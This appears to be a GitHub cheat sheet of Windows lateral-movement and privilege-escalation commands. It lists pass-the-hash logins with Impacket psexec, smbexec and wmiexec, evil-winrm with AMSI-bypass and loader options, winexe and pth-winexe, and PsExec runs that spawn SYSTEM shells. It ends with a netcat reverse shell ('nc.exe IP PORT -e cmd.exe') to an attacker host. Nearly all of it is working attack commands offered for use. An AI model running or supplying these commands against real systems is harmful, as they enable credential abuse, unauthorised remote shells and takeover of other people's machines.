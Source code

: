 # privesc_tools

## check if win-logon-creds are working

Note: psexec & evil-winrm uses 5985 (powershell remote access)

### psexec.py | smbexec | wmiexec

NOTE: psexec, smbexec will give SYSTEM shell. wmiexec will give user shell.

```bash
$ python3 /opt/impacket/examples/psexec.py USER:'PASS'@$IP
$ impacket-psexec DOMAIN/USER@IP -hashes :NTLMHASH

$ impacket-wmiexec DOMAIN/USER@IP -hashes :NTLMHASH

```

### evil-winrm

```bash
# only USER, no DOMAIN needed
$ evil-winrm -i IP -u <USER> [-H NT-HASH | -p PASS]

# custom options
PS> menu
[+] Dll-Loader
[+] Donut-Loader
[+] Invoke-Binary
[+] Bypass-4MSI
[+] services
[+] upload
[+] download
```

### winexe

```bash
$ winexe -U 'DOMAIN/USER%PASS' //IP cmd.exe
```

### pth-winexe

```bash
$ pth-winexe -U 'DOMAIN/USER%HASH' //IP cmd.exe
# [OR]
$ pth-winexe [--system] -U 'administrator%NTLM:HASH' //IP cmd.exe
# --system needs local admin hash
```

## PsExec.exe

```bash
PS> .\PsExec64.exe -accepteula -i -s <shell.exe>
# i: Run process interactively
# s: Run remote process in the System account.

> PSExec64.exe -i -u "nt authority\local service" <shell.exe>
# u: Run process as user-account <>

# Run executable with a different user:pass
PS> .\PsExec.exe -accepteula -u <user> -p <pass> nc.exe IP PORT -e cmd.exe
```
